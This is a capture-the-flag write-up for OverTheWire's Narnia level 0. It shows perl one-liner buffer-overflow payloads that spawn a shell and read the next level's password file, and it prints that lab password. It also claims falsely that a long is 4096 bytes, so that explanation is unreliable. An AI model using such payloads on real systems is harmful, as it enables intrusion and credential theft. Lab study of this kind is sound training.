 ```yaml
---
layout: post
title:  "Narnia Level 0"
date:   2015-09-28 22:04
categories: narnia wargame pwnable overthewire
author: Leander
---
```

This is a solution guide to the Narnia0 Level at [overthewire](http://overthewire.org/wargames/narnia/). This write-up was created on 19 November 2014.
<!--break-->

First connect to the lab
<ul><li>ssh narnia0@narnia.labs.overthewire.org</li>
<li>Enter the following as the password narnia0</li></ul>

Change directories to the narnia games folder <code>cd /narnia</code>. First let's examine how we get the password for the next level <code>less /README.txt</code>. This machine holds several wargames. For a generic wargame named "somegame", the usernames are: mygame0, mygame1, ... and most levels are stored in /mygame/. Passwords for each level are stored in /etc/mygame_pass/

So let's try reading the password without any additional work, <code> cat /etc/narnia_pass/narnia1</code>

<figure class="highlight"><pre><code class="language-text" data-lang="text">narnia0@melinda:/narnia$ cat /etc/narnia_pass/narnia1
cat: /etc/narnia_pass/narnia1: Permission denied
narnia0@melinda:/narnia$ </code></pre></figure>

Well that didn't work, so lets check out the challenge next. 
Notice all the different files and find the level 0 binary.

<figure class="highlight"><pre><code class="language-text" data-lang="text">narnia0@melinda:/narnia$ ls
narnia0    narnia1.c  narnia3    narnia4.c  narnia6    narnia7.c
narnia0.c  narnia2    narnia3.c  narnia5    narnia6.c  narnia8
narnia1    narnia2.c  narnia4    narnia5.c  narnia7    narnia8.c
narnia0@melinda:/narnia$</code></pre></figure>

I start by checking what the file does

<figure class="highlight"><pre><code class="language-text" data-lang="text">narnia0@melinda:/narnia$ ./narnia0
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: AAAA %p
buf: AAAA
val: 0x41414141
WAY OFF!!!!
narnia0@melinda:/narnia$</code></pre></figure>

Well that's interesting that it did something weird with %p. Now let's check the source code, type out <code>cat narnia0.c</code>

{% highlight c linenos %}
#include <stdio.h>
#include <stdlib.h>

  int main(){
  	long val=0x41414141;
// notice the buffer here is 20, which means there may be a potential for a buffer overflow
  	char buf[20];   

  	printf("Correct val's value from 0x41414141 -> 0xdeadbeef!\n");
  	printf("Here is your chance: ");
  	scanf("%24s",&buf);   
//notice the buffer read in from the command prompt above is a 24 byte string
//this means that we have a 4 byte overflow

  	printf("buf: %s\n",buf);        //here it prints the 20 bytes from char buf
  	printf("val: 0x%08x\n",val);    //the 4 bytes that overflow fall into val 
  	                                //because it was initialized on the stack below it

  	if(val==0xdeadbeef)             //a successful overflow input will give me a shell!
  		system("/bin/sh");            //system passes a command to the shell and in
  		                              //this case attempts to open a shell
  	else {
  		printf("WAY OFF!!!!\n");
  		exit(1);
  	}

  	return 0;
  }
{% endhighlight %}
  
From inspecting the code we can see that the stack looks something like this:

<figure class="highlight"><pre><code class="language-text" data-lang="text">
||-------------------------||
||                         ||
||                         ||
|| char buff ( 20 bytes )  ||       
||                         ||
||                         ||
||-------------------------||
||   long val ( 4 bytes )  ||
||-------------------------||
</code></pre></figure>
  
Alright now that I know this let's try some crafted input.

<figure class="highlight"><pre><code class="language-text" data-lang="text">narnia0@melinda:/narnia$ perl -e 'print "A"x20 . "BBBB"' | ./narnia0
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: buf: AAAAAAAAAAAAAAAAAAAABBBB
val: 0x42424242
WAY OFF!!!!
narnia0@melinda:/narnia$</code></pre></figure>
  
Well that's great, we've just confirmed that we can affect what goes into long val.
It's confirmed that i can overwrite the buffer. Apaprently, I was correct in how the
stack looked and inside it would look similar to this (except in hexadecimal 
representation).

<figure class="highlight"><pre><code class="language-text" data-lang="text">
        ||--------------||
        ||  0x41414141  ||    
        ||  0x41414141  ||
        ||  0x41414141  ||     
        ||  0x41414141  ||
        ||  0x41414141  ||
        ||--------------||
        ||  0x42424242  ||     
        ||--------------||
</code></pre></figure>

Note that 0x41 = A and 0x42 = B, char buff is ( 20 bytes ), and long val is ( 4 bytes ). Now let's try it with deadbeef in there.

<figure class="highlight"><pre><code class="language-text" data-lang="text">narnia0@melinda:/narnia$ perl -e 'print "A"x20 . "deadbeef"' | ./narnia0
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: buf: AAAAAAAAAAAAAAAAAAAAdead
val: 0x64616564
WAY OFF!!!!
narnia0@melinda:/narnia$</code></pre></figure>
  
Well that didn't work, because scanf is accepting string characters. So now we need a way to get the proper "characters"
in so that it will display 0xdeadbeef. Remember that you also have to craft the input to be little endian (I think of this
as the input has to be spelled backwards).

<figure class="highlight"><pre><code class="language-text" data-lang="text">narnia0@melinda:/narnia$ perl -e 'print "A"x20 . "\xef\xbe\xad\xde"' | ./narnia0
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: buf: AAAAAAAAAAAAAAAAAAAAﾭ?
val: 0xdeadbeef
narnia0@melinda:/narnia$</code></pre></figure>
  
Well that's weird I didn't get a shell, but the WAY OFF!!!! didn't show. At this point I realized that the /bin/sh needed an input to follow the system command. So then I added more input onto the end.

<figure class="highlight"><pre><code class="language-text" data-lang="text">narnia0@melinda:/narnia$ perl -e 'print "A"x20 . "\xef\xbe\xad\xde" . "cat /etc/narnia0_pass/narnia1"' | ./narnia0
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: buf: AAAAAAAAAAAAAAAAAAAAﾭ?
val: 0xdeadbeef
narnia0@melinda:/narnia$</code></pre></figure>

Still no solution. Now I want to create a situation where the program does something unintentional.

<figure class="highlight"><pre><code class="language-text" data-lang="text">narnia0@melinda:/narnia$ perl -e 'print "A"x20 . "\xef\xbe\xad\xde"x1100 . "cat /etc/narnia0_pass/narnia1"' | ./narnia0
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: buf: AAAAAAAAAAAAAAAAAAAAﾭ?
val: 0xdeadbeef
/bin/sh: 1: ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?cat: Filename too long
narnia0@melinda:/narnia$</code></pre></figure>

<figure class="highlight"><pre><code class="language-text" data-lang="text">
||-------------------------||
||                         ||
||                         ||   
|| char buff ( 20 bytes )  ||   
||                         ||    
||                         ||   
||-------------------------||  
||  buff overflow (4 bytes)||     
          .......                
|| long val ( 4092 bytes ) ||         
          .......
||                         ||
||-------------------------||
</code></pre></figure>

So I discovered I had the stack improperly setup because a long is actually 4096 bytes in size. This was demonstrated by the fact /bin/sh received the input that overflowed from the crafted string that I sent. Well that was useful, now lets whittle it down so that the /bin/sh command takes the correct input. All I should have to do now is remove the extra bytes.

<figure class="highlight"><pre><code class="language-text" data-lang="text">narnia0@melinda:/narnia$ perl -e 'print "A"x20 . "\xef\xbe\xad\xde" . "B"x4072 . "cat /etc/narnia_pass/narnia1"' | ./narnia0
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: buf: AAAAAAAAAAAAAAAAAAAAﾭ?
val: 0xdeadbeef
efeidiedae
narnia0@melinda:/narnia$</code></pre></figure>
  
BINGO! We have a solution. The password file for narnia1 is <code>efeidiedae</code>.
